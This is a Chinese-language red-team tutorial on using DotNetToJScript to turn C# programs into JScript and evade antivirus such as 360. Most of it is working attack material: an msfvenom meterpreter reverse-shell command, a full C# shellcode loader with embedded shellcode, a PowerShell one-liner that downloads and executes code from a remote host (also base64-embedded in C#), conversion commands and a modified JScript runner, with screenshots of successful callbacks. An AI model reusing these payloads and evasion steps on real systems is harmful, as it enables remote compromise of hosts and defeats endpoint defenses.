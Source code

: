 # DotNetToJscript

DotNetToJscript是老外写的一个工具，主要的功能是把C#的程序转换成Jscript脚本执行，核心原理是把C#程序进行Base64编码后放置在Jscript脚本中，由Jscript在内存中还原程序并加载运行。转换后的Jscript脚本可以和Scriptlet脚本结合在其他的攻击方法中利用，也可以用C#打包部分powershell功能，在不使用powershell进程的情况下，使用powershell功能。

## 防御逃避

### 技术复现（后门程序转JS）

1. 利用msfvenom输出C# shellcode

   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.58.134 LPORT=9999 -f csharp
   ```

2. 创建一个C#加载shellcode的后门dll

   ```
   using System;
   using System.Collections.Generic;
   using System.Linq;
   using System.Text;
   using System.Threading.Tasks;
   using System.Runtime.InteropServices;
   
   /*
   Author: Casey Smith, Twitter: @subTee
   License: BSD 3-Clause
   */
   
   namespace ShellCodeLauncher
   {
       public class Program
       {
           public Program()
           {
               Main();
           }
   
           static void Main()
           {
   
               byte[] shellcode = new byte[341] {
   0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
   0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
   0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
   0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
   0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
   0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
   0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
   0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
   0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
   0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,
   0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,
   0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0x3a,0x85,
   0x68,0x02,0x00,0x27,0x0f,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,
   0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,
   0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,
   0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,
   0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,
   0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,
   0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,
   0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
   0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,
   0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,
   0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
   
               UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                                   MEM_COMMIT, PAGE_EXECUTE_READWRITE);
               Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
               IntPtr hThread = IntPtr.Zero;
               UInt32 threadId = 0;
               // prepare data
   
               IntPtr pinfo = IntPtr.Zero;
   
               // execute native code
   
               hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
               WaitForSingleObject(hThread, 0xFFFFFFFF);
               return;
           }
   
           private static UInt32 MEM_COMMIT = 0x1000;
   
           private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
   
           [DllImport("kernel32")]
           private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
                UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
   
   
           [DllImport("kernel32")]
           private static extern IntPtr CreateThread(
   
             UInt32 lpThreadAttributes,
             UInt32 dwStackSize,
             UInt32 lpStartAddress,
             IntPtr param,
             UInt32 dwCreationFlags,
             ref UInt32 lpThreadId
   
             );
   
           [DllImport("kernel32")]
           private static extern UInt32 WaitForSingleObject(
   
             IntPtr hHandle,
             UInt32 dwMilliseconds
             );
       }
   }
   ```

3. 使用DotNetToJscript将DLL转换为Jscript脚本

   ```
   D:\work\tools\DotNetToJScript-master\DotNetToJScript-master\DotNetToJScript\bin\Debug>DotNetToJScript.exe Csharp_payload.dll -c ShellCodeLauncher.Program -o Csharp_payload.js
   ```



### 结果验证

绕过360上线主机

![1569324151479](DotNetToJscript.assets/1569324151479.png)

![1569324178127](DotNetToJscript.assets/1569324178127.png)



### 技术复现（执行powershell）

1. 利用MSF的web_delivery生成powershell payload

   ```
   powershell.exe -nop -w hidden -c $A=new-object net.webclient;$A.proxy=[Net.WebRequest]::GetSystemWebProxy();$A.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $A.downloadstring('http://192.168.58.135:8888/');
   ```

2. 编写执行powershell的C#程序

   ```
   
   using System.Diagnostics;
   using System.Runtime.InteropServices;
   using System.Management.Automation;
   using System.Management.Automation.Runspaces;
   using System.IO;
   using System;
   using System.Text;
   using System.Collections.ObjectModel;
   
   [ComVisible(true)]
   public class TestClass
   {
   
           private static string baseaa = "JGE9bmV3LW9iamVjdCBuZXQud2ViY2xpZW50OyRhLnByb3h5PVtOZXQuV2ViUmVxdWVzdF06OkdldFN5c3RlbVdlYlByb3h5KCk7JGEuUHJveHkuQ3JlZGVudGlhbHM9W05ldC5DcmVkZW50aWFsQ2FjaGVdOjpEZWZhdWx0Q3JlZGVudGlhbHM7SUVYICRhLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vMTkyLjE2OC41OC4xMzU6ODg4OC8nKTs=";
   
           public void RunScript()
           {
               Runspace MyRunspace = RunspaceFactory.CreateRunspace();
               MyRunspace.Open();
               Pipeline MyPipeline = MyRunspace.CreatePipeline();
               byte[] bytes = Convert.FromBase64String(baseaa);
               string decode = Encoding.GetEncoding("utf-8").GetString(bytes);
               MyPipeline.Commands.AddScript(decode);
               MyPipeline.Commands.Add("Out-String");
               Collection<PSObject> outputs = MyPipeline.Invoke();
               MyRunspace.Close();
               StringBuilder sb = new StringBuilder();
               foreach (PSObject pobject in outputs)
               {
                   sb.AppendLine(pobject.ToString());
               }
               Console.WriteLine(sb.ToString());
           }
       
   
       public void RunProcess(string path)
       {
           Process.Start(path);
       }
   }
   ```

3. 使用DotNetToJscript将DLL转换为Jscript脚本

   ```
   D:\work\tools\DotNetToJScript-master\DotNetToJScript-master\DotNetToJScript\bin\Debug>DotNetToJScript.exe Csharp_powershell.dll -o Csharp_payload.js
   ```

4. 修改jscript脚本来运行RunScript方法

   ```
   try {
   	setversion();
   	var stm = base64ToStream(serialized_obj);
   	var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
   	var al = new ActiveXObject('System.Collections.ArrayList');
   	var d = fmt.Deserialize_2(stm);
   	al.Add(undefined);
   	var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
   	o.RunScript();//运行RunScript方法
   	
   } catch (e) {
       debug(e.message);
   }
   ```



### 结果验证

依然被360识别出powershell，允许后可上线主机

![1569401044570](DotNetToJscript.assets/1569401044570.png)

![1569401097761](DotNetToJscript.assets/1569401097761.png)

也没有逃避sysmon的powershell进程监控

![1569401532048](DotNetToJscript.assets/1569401532048.png)



## 参考

https://github.com/tyranid/DotNetToJScript

https://github.com/Arno0x/CSharpScripts/blob/master/shellcodeLauncher.cs